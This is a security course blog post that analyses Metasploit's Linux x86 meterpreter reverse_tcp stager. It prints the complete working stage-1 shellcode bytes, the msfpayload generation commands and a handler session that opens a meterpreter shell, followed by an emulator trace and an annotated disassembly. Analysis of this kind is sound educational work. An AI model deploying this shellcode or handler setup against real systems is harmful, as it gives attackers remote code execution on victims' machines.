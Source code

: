 ```yaml
---
title:  "[SLAE 5] Metasploit meterpreter/reverse_tcp Shellcode"
categories: [SLAE]
---
```


![Logo](/assets/images/tux-root.png)

This post is part of the 5th assignment of the [SLAE course](www.securitytube-training.com/online-courses/securitytube-linux-assembly-expert/) and will analyse another Metasploit shellcode: **_meterpreter/reverse_tcp_**. First we'll check the description of this shellcode: 
```bash
# msfpayload linux/x86/meterpreter/reverse_tcp S
 
       Name: Linux Meterpreter, Reverse TCP Stager
     Module: payload/linux/x86/meterpreter/reverse_tcp
    Version: 0
   Platform: Linux
       Arch: x86
Needs Admin: No
 Total size: 178
       Rank: Normal
 
Provided by:
  PKS
  egypt <egypt@metasploit.com>
  skape <mmiller@hick.org>
 
Basic options:
Name          Current Setting  Required  Description
----          ---------------  --------  -----------
DebugOptions  0                no        Debugging options for POSIX meterpreter
LHOST                          yes       The listen address
LPORT         4444             yes       The listen port
PrependFork                    no        Add a fork() / exit_group() (for parent) code
 
Description:
  Connect back to the attacker, Staged meterpreter server
```

To test it, we'll insert the 1st stage payload into the skeleton tester file: 
```bash
# msfpayload linux/x86/meterpreter/reverse_tcp LHOST=192.168.56.101 LPORT=4444 C
```

```c
/*
 * linux/x86/meterpreter/reverse_tcp - 71 bytes (stage 1)
 * http://www.metasploit.com
 * VERBOSE=false, LHOST=192.168.56.101, LPORT=4444, 
 * ReverseConnectRetries=5, ReverseAllowProxy=false, 
 * EnableStageEncoding=false, PrependSetresuid=false, 
 * PrependSetreuid=false, PrependSetuid=false, 
 * PrependSetresgid=false, PrependSetregid=false, 
 * PrependSetgid=false, PrependChrootBreak=false, 
 * AppendExit=false, AutoLoadStdapi=true, 
 * InitialAutoRunScript=, AutoRunScript=, AutoSystemInfo=true, 
 * EnableUnicodeEncoding=true, PrependFork=false, 
 * DebugOptions=0
 */
unsigned char buf[] = 
"\x31\xdb\xf7\xe3\x53\x43\x53\x6a\x02\xb0\x66\x89\xe1\xcd\x80"
"\x97\x5b\x68\xc0\xa8\x38\x65\x68\x02\x00\x11\x5c\x89\xe1\x6a"
"\x66\x58\x50\x51\x57\x89\xe1\x43\xcd\x80\xb2\x07\xb9\x00\x10"
"\x00\x00\x89\xe3\xc1\xeb\x0c\xc1\xe3\x0c\xb0\x7d\xcd\x80\x5b"
"\x89\xe1\x99\xb6\x0c\xb0\x03\xcd\x80\xff\xe1";
 
/*
 * linux/x86/meterpreter/reverse_tcp - 1126400 bytes (stage 2)
 * http://www.metasploit.com
 */
unsigned char buf[] = 
"\x7f\x45\x4c\x46\x01\x01\x01\x00\x00\x00\x00\x00\x00\x00\x00"
"\x00\x02\x00\x03\x00\x01\x00\x00\x00\x05\xfe\x04\x20\x34\x00"
[..]
```

We don't care about the 2nd stage because it will be transmitted to the client after connection. Then start a multi handler which will receive the connection and send the 2nd stage payload: 
```bash
msf exploit(handler) > show options 
 
Module options (exploit/multi/handler):
 
   Name  Current Setting  Required  Description
   ----  ---------------  --------  -----------
 
 
Payload options (linux/x86/meterpreter/reverse_tcp):
 
   Name          Current Setting  Required  Description
   ----          ---------------  --------  -----------
   DebugOptions  0                no        Debugging options for POSIX meterpreter
   LHOST         192.168.56.101   yes       The listen address
   LPORT         4444             yes       The listen port
 
msf exploit(handler) > exploit -j -z
```

We send the compiled stage 1: 
```bash
$ ./shellcode
Shellcode Length:  24 bytes
(Shellcode contains null bytes)
```

And we get in the handler: 
```bash
msf exploit(handler) > 
[*] Transmitting intermediate stager for over-sized stage...(100 bytes)
[*] Sending stage (1126400 bytes) to 192.168.56.1
[*] Meterpreter session 1 opened (192.168.56.101:4444 -> 192.168.56.1:33626) at 2013-07-21 21:21:08 +0100
 
msf exploit(handler) > sessions -i 1
[*] Starting interaction with 1...
 
meterpreter > getuid 
Server username: uid=1000, gid=1000, euid=1000, egid=1000, suid=1000, sgid=1000
```

So the shellcode is working as expected. We proceed to analyse the payload with the shellcode tester from [libemu](https://www.aldeid.com/wiki/Libemu):
```bash
# msfpayload linux/x86/meterpreter/reverse_tcp LHOST=192.168.56.101 LPORT=4444 R > shellcode.bin
# ls -al shellcode.bin 
-rwxrwx--- 1 root vboxsf 71 Jul 21 21:25 shellcode.bin
(71 bytes. It's stage 1)
$ cat shellcode.bin | /opt/libemu/bin/sctest -vvv -S -s 1000 -G shellcode.dot
```

And there's the first part of the shellcode that it was possible to be decoded by the emulator: 
```c
int socket (
     int domain = 2;
     int type = 1;
     int protocol = 0;
) =  14;
int connect (
     int sockfd = 14;
     struct sockaddr_in * serv_addr = 0x00416fbe => 
         struct   = {
             short sin_family = 2;
             unsigned short sin_port = 23569 (port=4444);
             struct in_addr sin_addr = {
                 unsigned long s_addr = 1698212032 (host=192.168.56.101);
             };
             char sin_zero = "       ";
         };
     int addrlen = 102;
) =  0;
```

Here we see clearly the initial syscalls and their parameters. We can also view the same information graphically: 
```bash
$ dot shellcode.dot -T png -o shellcode.png
```

[![](/assets/images/libemu2-small.png)](/assets/images/libemu2.png)

Finally we'll manually analyse the shellcode to understand the complete functionality. To disassemble it: 
```bash
$ echo -ne "\x31\xdb\xf7\xe3\x53\x43\x53\x6a\x02\xb0\x66\x89\xe1\xcd\x80\x97\x5b\x68\xc0\xa8\x38\x65\x68\x02\x00\x11\x5c\x89\xe1\x6a\x66\x58\x50\x51\x57\x89\xe1\x43\xcd\x80\xb2\x07\xb9\x00\x10\x00\x00\x89\xe3\xc1\xeb\x0c\xc1\xe3\x0c\xb0\x7d\xcd\x80\x5b\x89\xe1\x99\xb6\x0c\xb0\x03\xcd\x80\xff\xe1" | ndisasm -b 32 -
```

The first operation is, as we've seen previously, a socket call: 
```c
; man 2 socket
; int socket(int domain, int type, int protocol);
; Parameters can be viewed with strace commnad
; socket(PF_INET, SOCK_STREAM, IPPROTO_IP)
00000000  31DB              xor ebx,ebx         ; Zero out ebx
00000002  F7E3              mul ebx             ; Zero out eax
00000004  53                push ebx            ; Protocol - IPPROTO_IP (0) 
00000005  43                inc ebx             ; int call - SYS_SOCKET (1)
00000006  53                push ebx            ; Type - SOCK_STREAM (1)
00000007  6A02              push byte +0x2      ; Domain - AF_INET (2)
00000009  B066              mov al,0x66         ; sys_socketcall
0000000B  89E1              mov ecx,esp         ; Parameters
0000000D  CD80              int 0x80            ; Fire up the interrupt
```

Next is the connect call, which was also executed by the emulator: 
```c
; connect(3, {sa_family=AF_INET, sin_port=htons(4444), sin_addr=inet_addr("192.168.56.101")}, 102)
0000000F  97                xchg eax,edi        ; fd is returned, then stored into edi
00000010  5B                pop ebx             ; ebx is 2
00000011  68C0A83865        push dword 0x6538a8c0
00000016  680200115C        push dword 0x5c110002
0000001B  89E1              mov ecx,esp
0000001D  6A66              push byte +0x66     ; sys_socketcall
0000001F  58                pop eax
00000020  50                push eax
00000021  51                push ecx
00000022  57                push edi            ; push first param - the fd
00000023  89E1              mov ecx,esp
00000025  43                inc ebx             ; int call - SYS_CONNECT (3)
00000026  CD80              int 0x80
```

Next operations were not executed by the emulator. Following is an _`mprotect`_ call, which sets protection on a region of memory. The function has the following syntax: 
```c
int mprotect(const void *addr, size_t len, int prot);
```

The parameters of the call can be easily viewed with the _`strace`_ utility:
```c
mprotect(0xbff7e000, 4096, PROT_READ|PROT_WRITE|PROT_EXEC) = 0
```

The defines have the following values:
```
PROT_READ 0x1 
PROT_WRITE 0x2 
PROT_EXEC 0x4 
```

And if we verify with the assembly code: 
```c
00000028  B207              mov dl,0x7          ; PROT_READ|PROT_WRITE|PROT_EXEC
0000002A  B900100000        mov ecx,0x1000      ; 4096
0000002F  89E3              mov ebx,esp
00000031  C1EB0C            shr ebx,0xc
00000034  C1E30C            shl ebx,0xc
00000037  B07D              mov al,0x7d         ; sys_mprotect
00000039  CD80              int 0x80
```

The final part of the shellcode is, as expected, the read call, which will get the 2nd stage payload from the server, and then execute it: 
```c
; man 2 read
; read - read from a file descriptor
; ssize_t read(int fd, void *buf, size_t count);
0000003B  5B                pop ebx             ; fd to read from; pushed at 'push edi' line
0000003C  89E1              mov ecx,esp         ; buffer
0000003E  99                cdq
0000003F  B60C              mov dh,0xc          ; count - a lot of data to be read...
00000041  B003              mov al,0x3          ; sys_read
00000043  CD80              int 0x80
00000045  FFE1              jmp ecx             ; the buffer thathas been read. execute it
```

##

The complete source files and scripts mentioned in this post can be found in my [SLAE Git repository](https://github.com/livz/slae).

**_This blog post has been created for completing the requirements of the [SecurityTube Linux Assembly Expert certification](www.securitytube-training.com/online-courses/securitytube-linux-assembly-expert/)_**
